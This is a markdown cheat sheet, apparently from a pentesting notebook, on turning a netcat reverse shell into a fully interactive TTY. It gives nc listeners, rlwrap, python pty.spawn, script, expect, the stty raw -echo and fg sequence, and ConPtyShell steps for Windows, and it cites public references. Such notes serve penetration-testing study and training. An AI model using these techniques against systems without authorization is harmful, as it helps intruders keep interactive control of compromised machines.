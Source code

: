 # Nix Netcat

## 01 - Spawn TTY Shell

### 1.1 - Cross Platform

Using the GNU readline wrapper with arrow keys. You can use this when using a normal reverse shell for penetrating Windows machine.

```
userware@hackware-os:~$ rlwrap nc <target_IP> <target_PORT>
```

The `-f .` flag will make rlwrap use the current history file as a completion word list, and `-r` put all words seen on input and output on the completion list.

```
userware@hackware-os:~$ rlwrap -r -f . nc <target_IP> <target_PORT>
```

### 1.2 - Linux

#### 1.1.1 - Python

```
$ python -c 'import pty; pty.spawn("/bin/bash")'
CTRL+Z

userware@hackware-os:~$ echo $TERM && tput lines && tput cols
```

In attacker machine for `/bin/bash`.

```
userware@hackware-os:~$ stty raw -echo
fg
```

In attacker machine for `/bin/zsh`.

```
userware@hackware-os:~$ stty raw -echo; fg
reset
export SHELL=/bin/bash
```

Display the terminal colors (You can skip this step if the shell is stabilized).

```
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

#### 1.1.2 - Script

This is a universal method for GNU/Linux and Unix-like operating systems.

```
$ script -qc /bin/bash /dev/null
CTRL+Z

userware@hackware-os:~$ echo $TERM && tput lines && tput cols
```

In attacker machine for `/bin/bash`.

```
userware@hackware-os:~$ stty raw -echo
userware@hackware-os:~$ fg
```

In attacker machine for `/bin/zsh`.

```
userware@hackware-os:~$ stty raw -echo; fg

$ reset
$ export SHELL=/bin/bash
```

Display the terminal colors (You can skip this step if the shell is stablized).

```
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

#### 1.1.3 - Expect

Using `expect` to get a TTY

```
#!/usr/bin/expect
# Spawn a shell, then allow the user to interact with it.
# The new shell will have a good enough TTY to run tools like ssh, su and login
spawn sh
interact
```

Output

```
$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 48257
sh: no job control in this shell
sh-3.2$ su -
su: must be run from a terminal
sh-3.2$ expect sh.exp
spawn sh
sh-3.2$ su -
Password:  mypassword
localhost ~ #
```

### 1.3 - BSD

#### 1.3.1 - Script

```
$ exec script -q /dev/null /bin/bash
```

### 1.4 - Windows

Note: Refer to fully interactive [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/File Attachment/Implant/Windows/Payloads/One-Liners/Reverse Shells/PowerShell#^d57486|powershell]].

#### 1.3.1 - Method One

This will set the terminal size automatically without passing the `rows` and `cols` manually.

```
userware@hackware-os:~$ stty raw -echo; (stty size; cat) | nc -lvnp <PORT>
```

#### 1.3.2 - Method Two

When you encounter an problem to ensure that the `cols` and `rows` are set manually.

```
userware@hackware-os:~$ stty size

userware@hackware-os:~$ nc -lvnp <PORT>

PS C:\> CTRL+Z
```

In attacker machine for `/bin/bash`.

```
userware@hackware-os:~$ stty raw -echo
userware@hackware-os:~$ fg
```

In attacker machine for `/bin/zsh`.

```
userware@hackware-os:~$ stty raw -echo; fg
```

#### 1.3.3 - Method Three - Upgrade

You can also upgrade your current shell to a fully interactive shell. In this case it's important that you set `rows` and `cols` size when calling the `Invoke-ConPtyShell` function.

```
userware@hackware-os:~$ stty size

userware@hackware-os:~$ nc -lvnp <PORT>

PS C:\> CTRL+Z
```

In attacker machine for `/bin/bash`.

```
userware@hackware-os:~$ stty raw -echo
userware@hackware-os:~$ fg
```

In attacker machine for `/bin/zsh`.

```
userware@hackware-os:~$ stty raw -echo; fg
```

---
## References

### Github

- [hackerschoice: THC's favourite Tips, Tricks & Hacks (Cheat Sheet)](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet)

- [antonioCoco: ConPtyShell](https://github.com/antonioCoco/ConPtyShell)

### Hacktricks

- [Hacktricks: Shells Full TTYs](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/full-ttys.html)

### ROPNOP

- [ROPNOP: Upgrading Simple Shells to Fully Interactive TTYs](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

### Pentest Monkey

- [Pentest Monkey: Post Exploitation Without a TTY](https://pentestmonkey.net/blog/post-exploitation-without-a-tty)

### Enlace Hacktivista

- [Enlace Hacktivista: Stabilizing reverse shells](https://enlacehacktivista.org/index.php?title=Stabilizing_reverse_shells)

### Ivan IT Learning

- [Ivan IT Learning: Interactive shells for Windows](https://ivanitlearning.wordpress.com/2021/04/27/interactive-shells-for-windows/)